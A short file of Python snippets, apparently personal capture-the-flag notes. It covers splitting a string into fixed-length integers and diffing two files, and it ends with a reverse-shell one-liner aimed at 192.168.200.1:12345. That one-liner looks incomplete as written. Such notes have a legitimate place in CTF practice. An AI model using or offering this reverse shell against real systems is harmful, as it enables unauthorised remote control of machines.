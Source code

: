 # python
### change a string to a list of integers of _n_ length


```python
m ='some_string' # was an int
n = 0 # enter an integer
new_list = [int(m[i:i+n]) for i in range (0,len(m),n)]

# Useful for iterating over a str that was an int. Weird things happen if len(m) mod n != 0.

```
### diff tool... nice for diffing files of the same type in ctfs

```python
a = open("filename", "r").read()
b = open("filename", "r").read()

x = ''

for i,j in zip(a, b):
    if i != j:
        #x.append(i) if x needs to be a list
        x += i
        
print x

# Prints a string of differences. Pipe the output into sed to prettify if x is a list. Output may be a flag...

```
### Reverse Shell one-liner
```python
python -c "import pty,socket;h,p='192.168.200.1',12345;socket.create_connection((h,p));pty.spawn('/bin/sh');"
```
